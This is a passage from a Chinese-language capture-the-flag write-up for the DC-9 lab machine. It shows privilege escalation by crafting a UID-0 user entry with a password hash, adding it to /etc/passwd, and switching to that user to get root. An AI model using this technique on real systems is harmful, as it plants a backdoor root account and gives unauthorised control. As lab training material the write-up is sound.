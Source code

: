 构造用户`sob:$1$sob$BmJLmGFTRiB9Pzlip0Dpa0:0:0::/root:/bin/bash`

```sh
fredf@dc-9:~$ echo 'sob:$1$sob$BmJLmGFTRiB9Pzlip0Dpa0:0:0::/root:/bin/bash' > ./hack.txt
fredf@dc-9:~$ cat hack.txt 
sob:$1$sob$BmJLmGFTRiB9Pzlip0Dpa0:0:0::/root:/bin/bash
```

然后写入用户至`/etc/passwd`

![d42114243c149d1706798394f7701f6e.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/d42114243c149d1706798394f7701f6e.png)

![6a482ad83707bcd13f7f73accfee1bd1.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/6a482ad83707bcd13f7f73accfee1bd1.png)

切换至sob用户,成功获得root权限

![590dc0f8c2673aa2c3db9245496e176f.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/590dc0f8c2673aa2c3db9245496e176f.png)
